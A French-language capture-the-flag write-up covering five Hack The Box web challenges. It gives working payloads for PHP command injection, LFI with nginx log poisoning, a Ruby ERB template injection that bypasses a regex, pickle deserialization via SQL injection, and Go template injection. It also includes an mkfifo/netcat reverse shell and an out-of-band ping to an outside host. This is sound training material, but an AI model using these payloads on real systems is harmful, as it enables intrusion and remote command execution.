 # Challenges Web HTB

## LoveTok

La page principale est une URL terminant par "/?format=r" et il semble possible de faire varier ce format, notamment en y mettant des données non-prévues. Cela semble être un point d'entrée pour une injection.

Impossible d'utiliser les caractères suivants à cause de la fonction addslashes() utilisée sur le format dans le code source : 
- '
- "
- \

Impossible d'utiliser de l'encodage puisque la variable $_GET[] va décoder le payload avant de le passer à TimeModel() : 

    $format = isset($_GET['format'])? $_GET['format'] : 'r';
    $time = new TimeModel($format);


Il reste donc l'option des variables complexes : 

    ${system($_GET[commande])}&commande=ls+/
    ${system($_GET[commande])}&commande=cat+/flag

## Toxic 

Dans la page **index.php** on observe que le cookie de session est généré à partir d'un nom de fichier. Ce nom de fichier est sérialisé et combiné avec un calcul : 

    if (empty($_COOKIE['PHPSESSID']))
    {
        $page = new PageModel;
        $page->file = '/www/index.html';

        setcookie(
            'PHPSESSID', 
            base64_encode(serialize($page)), 
            time()+60*60*24, 
            '/'
        );
    } 

En faisant une requête classique on peut récupérer un cookie au format traditionnel : 

>Cookie: PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxNToiL3d3dy9pbmRleC5odG1sIjt9

Le décodage en Base64 de cette valeur donne le résultat suivant : 

    O:9:"PageModel":1:{s:4:"file";s:15:"/www/index.html";}

En remplaçant "**/www/index.html**" par "**/etc/passwd**" puis en réencodant en Base64 on obtient bien le contenu de ce fichier. **Attention à bien mettre à jour le champ "s" qui précède le chemin avec la bonne longueur !**

Exemple de payload en clair : 

    O:9:"PageModel":1:{s:4:"file";s:34:"../../../../../../../../etc/passwd";}

Il faudrait adapter ce payload pour lire le flag directement, mais le nom du flag est généré dynamiquement et n'est pas devinable. On doit donc trouver une RCE.

Le titre du challenge fait directement penser au Log Poisoning et le cas de figure LFI => Log Poisoning => RCE est très connu. Je suis donc parti sur cette voie : 

    O:9:"PageModel":1:{s:4:"file";s:48:"../../../../../../../../var/log/nginx/access.log";}
    
Ce payload encodé en Base64 fonctionne et nous sort les logs du serveur. L'user-agent est bien reflété dedans, on peut donc refaire des requêtes classiques mais cette fois avec les valeurs suivantes dans le header "User-Agent" : 

    <?php system('id'); ?>
    <?php system('ls /'); ?>
    <?php system('cat /flag_K61S1'); ?>

## Neonify 

Le site ne contient qu'une simple page permettant de renvoyer du texte en version fluo. 

Dans le code source de cette page on remarque le morceau suivant : 

    <h1 class="glow"><%= @neon %></h1>
    
Cela ressemble à un point d'entrée pour une SSTI. 

Toutefois, la plupart des payloads classiques de SSTI sont rejetés. En vérifiant le code source du back-end, on observe un filtre par expression régulière : 

    post '/' do
        if params[:neon] =~ /^[0-9a-z ]+$/i
          @neon = ERB.new(params[:neon]).result(binding)
        else
          @neon = "Malicious Input Detected"
        end
        erb :'index'
      end

Utiliser '^' et '$' comme délimiteurs en Ruby est une erreur, puisqu'ils s'arrêtent à la ligne courante et peuvent être contournés par les retours à la ligne.

Voir : https://davidhamann.de/2022/05/14/bypassing-regular-expression-checks/

Payload en clair contenant un retour à la ligne et une commande de lecture du flag : 

    ABCDE\n
    <%= File.open('flag.txt').read %>
    
Attention à bien encoder tous les caractères spéciaux et notamment le retour à la ligne.

Payload final : 

    ABCDE%0a
    <%25%3d+File.open('flag.txt').read+%25>

## C.O.P

La cible semble être un simple site marchand avec des références à Pickle.

Dans le fichier **database.py** on voit que le site utilise la fonction **pickle.dumps()** qui peut être vulnérable à des attaques par désérialisation : 

    with open('schema.sql', mode='r') as f:
        shop = map(lambda x: base64.b64encode(pickle.dumps(x)).decode(), items)
        get_db().cursor().executescript(f.read().format(*list(shop)))

Dans le fichier **models.py** on voit également une injection SQL classique : 

    @staticmethod
    def select_by_id(product_id):
        return query_db(f"SELECT data FROM products WHERE id='{product_id}'", one=True)

Exemple de script Python pour automatiser la génération du payload : 

    import sys
    import base64
    import pickle
    import urllib.parse
    import requests

    class Payload:
    
      def __reduce__(self):
        import os
        cmd = ("$COMMANDE")
        return os.system, (cmd,)

    if __name__ == "__main__":
      payload = base64.b64encode(pickle.dumps(Payload())).decode()
      payload = f"' UNION SELECT '{payload}' -- "
      payload = requests.utils.requote_uri(payload)
      print(payload)

Suite de payloads à utiliser : 

    ping kvj6lchz2mo961drc3g2duq2ut0kofc4.oastify.com
    mkfifo /tmp/p; nc $NGROK $PORT 0</tmp/p | /bin/sh > /tmp/p 2>&1; rm /tmp/p

## RenderQuest

Le site permet d'injecter des templates à partir d'autres sites.

Le code est en Go et tout est dans le fichier **main.go** 

On trouve une fonction extrêmement intéressante dedans : 

    func (p RequestData) FetchServerInfo(command string) string {
        out, err := exec.Command("sh", "-c", command).Output()
        if err != nil {
            return ""
        }
        return string(out)
    }
    
Quelques utilisations de cette fonction se trouvent plus bas dans le code : 

	reqData.ServerInfo.Hostname = reqData.FetchServerInfo("hostname")
	reqData.ServerInfo.OS = reqData.FetchServerInfo("cat /etc/os-release | grep PRETTY_NAME | cut -d '\"' -f 2")
	reqData.ServerInfo.KernelVersion = reqData.FetchServerInfo("uname -r")
	reqData.ServerInfo.Memory = reqData.FetchServerInfo("free -h | awk '/^Mem/{print $2}'")
    
    
Comme le site utilise des templates, il est sûrement possible d'injecter cette fonction dans un template.


Le site https://webhook.site permet de créer un webhook avec réponses personnalisables.

En mettant **{{.FetchServerInfo "ls"}}** comme réponse dans notre webhook on a bien le retour de la commande lorsque l'on visite la page suivante : 

    http://94.237.54.37:39179/render?use_remote=true&page=https://webhook.site/eefae61c-61f7-424a-9e8c-ce53c112956b

Exemples de payloads à mettre dans les réponses du webhook pour obtenir le flag : 

    {{.FetchServerInfo "ls /"}}
    {{.FetchServerInfo "cat /flag28c66c9c92.txt"}}

Il est important de mettre le point avant la fonction sinon le site plante et retourne une erreur 500.
